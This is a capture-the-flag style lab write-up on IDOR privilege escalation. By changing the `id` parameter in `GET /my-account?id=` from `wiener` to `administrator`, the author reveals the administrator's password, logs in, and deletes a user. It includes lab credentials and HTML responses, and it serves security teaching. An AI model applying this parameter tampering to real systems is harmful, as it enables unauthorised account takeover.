 There are some cases when a horizontal privilege escalation can be turned into a vertical privilege escalation. This by compromising a more privileged user.

For example, where a horizontal escalation allows the attacker to reset or capture the password which belongs to another user, and if the target i an administrative user, they can gain administrative access.

## 4.1 Lab - User ID Controlled by Request Parameter with Password Disclosure

The lab has user account page which contains the current user's password, prefilled in a masked input.

The goal of the lab is to retrieve the administrator's password and then delete the user `carlos`.

In the lab can be logged in using the credentials: `wiener:peter`.

When i log in with the `wiener` account, I see a field with the Password in Asterix and a button to update it.

After checking the response to this page, I see:

```html
                       <form class="login-form" action="/my-account/change-password" method="POST">
                            <br/>
                            <label>Password</label>
                            <input required type="hidden" name="csrf" value="wOYK6TGeT4EzqY1YHn6fpV4GVqXLK3UC">
                            <input required type=password name=password value='peter'/>
                            <button class='button' type='submit'> Update password </button>
                        </form>
```

And the request to which I got this response is: `GET /my-account?id=wiener HTTP/2`.

Let's try to change this to `id=administrator`.
 
I received the response with `200 OK` and in the body I can see the `administrator` password:

```html
                       <form class="login-form" action="/my-account/change-password" method="POST">
                            <br/>
                            <label>Password</label>
                            <input required type="hidden" name="csrf" value="wOYK6TGeT4EzqY1YHn6fpV4GVqXLK3UC">
                            <input required type=password name=password value='ffuu7p5xqgudwfxhdpwa'/>
                            <button class='button' type='submit'> Update password </button>
                        </form>
```

I use that to login and delete the user `carlos`.

------

